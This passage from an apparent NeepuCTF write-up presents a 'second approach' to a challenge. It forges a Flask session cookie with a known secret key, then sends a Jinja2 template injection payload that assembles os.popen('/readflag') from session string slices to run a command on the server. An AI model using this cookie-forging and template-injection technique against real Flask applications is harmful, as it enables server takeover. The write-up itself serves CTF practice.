 第二种打法

```python
python flask_session_cookie_manager3.py encode -s "AgOjocJeHPLnvRequs38qFmgGX334SE9sx72HvAp*NeepuCTF*" -t "{'admin':1,'__globals__':0,'os':0,'popen':0,'/readflag':0,'read':0}"
http://neepusec.fun:28653/genius?answer={%print(lipsum[(session|string)[39:50]][(session|string)[69:71]][(session|string)
[78:83]]((session|string)[23:32])[(session|string)[24:28]]())%}
```
